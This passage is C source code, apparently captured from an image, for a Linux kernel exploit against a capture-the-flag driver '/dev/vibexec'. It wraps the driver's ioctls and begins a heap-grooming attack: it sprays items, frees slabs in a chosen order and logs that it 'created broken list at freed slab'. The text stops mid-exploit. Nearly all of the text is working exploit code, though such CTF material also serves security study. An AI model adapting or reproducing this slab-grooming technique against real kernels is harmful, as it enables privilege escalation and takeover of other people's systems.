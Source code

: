 ```c
#define IOCTL_REMOVE_ITEM 0xabcd0002
#define IOCTL_SKIP 0xabcd0003
#define IOCTL_EDIT_MEMO 0xabcd0004

int add(long val) { return SYSCHK(ioctl(fd, IOCTL_ADD_ITEM, &val)); }

int del(long val) { return SYSCHK(ioctl(fd, IOCTL_REMOVE_ITEM, &val)); }

int skip(long val) { return SYSCHK(ioctl(fd, IOCTL_SKIP, &val)); }

int edit(struct req_item *req) {
  return SYSCHK(ioctl(fd, IOCTL_EDIT_MEMO, req));
}

int edit_kv(long key, uint64_t value) {
  struct req_item item = {.key = key};
  up64(value, item.memo);

  return edit(&item);
}

int main(int argc, char **argv) {
  noaslr(argc, argv);

  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  setbuf(stdin, NULL);

  log_level = LOG_INFO;

  log_info("start pwning");

  dmmap(NULL, MAPDEF); // vm_area_struct

  fd = SYSCHK(open("/dev/vibexec", O_RDWR));
  log_info("opened challenge");

  REP2(cache_idx, 64) {
    REP2(i, 64) { add(cache_idx << 8 | i | 0xffff000000000000); }
  }

  log_info("filled");

  for (int cache_idx = 64 - 1; 32 <= cache_idx; cache_idx--) {
    for (int idx = 64 - 1; 0 <= idx; idx--) {
      del(cache_idx << 8 | idx | 0xffff000000000000);
    }
  }

  for (int idx = 64 - 1; 2 <= idx; idx--) {
    del(31 << 8 | idx | 0xffff000000000000);
  }

  skip(31 << 8 | 0 | 0xffff000000000000);
  skip(31 << 8 | 1 | 0xffff000000000000);
  log_info("created broken list at freed slab");

  for (int cache_idx = 31 - 1; 16 <= cache_idx; cache_idx--) {
    for (int idx = 64 - 1; 0 <= idx; idx--) {
      del(cache_idx << 8 | idx | 0xffff000000000000);
    }
  }

```